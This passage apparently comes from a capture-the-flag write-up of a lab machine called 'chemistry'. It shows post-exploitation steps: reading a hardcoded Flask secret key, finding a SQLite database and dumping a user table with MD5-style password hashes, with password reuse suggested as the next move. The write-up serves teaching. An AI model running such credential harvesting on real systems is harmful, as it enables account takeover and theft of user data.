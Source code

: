 Seems that there is some type of database on the server, and on the top of the file we can see the credentials:
```
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
```

The database name is database, and we know the password, let's try to get some information about the users, maybe rosa logged in with the same password?
As this is a sqlite, the database should be a file, so, let's do a quick find on the directory we are in.
```
app@chemistry:~$ find . -iname *\.db 2>/dev/null
find . -iname *\.db 2>/dev/null
./instance/database.db
```


Let's connect:
```
app@chemistry:~/instance$ sqlite3 database.db   
sqlite3 database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```
Great, now we can see the database, let's see which tables exists:
```
sqlite> .tables
.tables
structure  user
```

We do a full select of all the user table, and we get the username and hash of the password.
```
sqlite> select * from user;
select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|tester|ae2b1fca515949e5d54fb22b8ed95575
16|fdhjgfjhd|098f6bcd4621d373cade4e832627b4f6
17|test123|cc03e747a6afbbcbf8be7668acfebee5
18|guest|084e0343a0486ff05530df6c705c8bb4
19|1|c4ca4238a0b923820dcc509a6f75849b
20|user1|24c9e15e52afc47c225b757e7bee1f9d
```
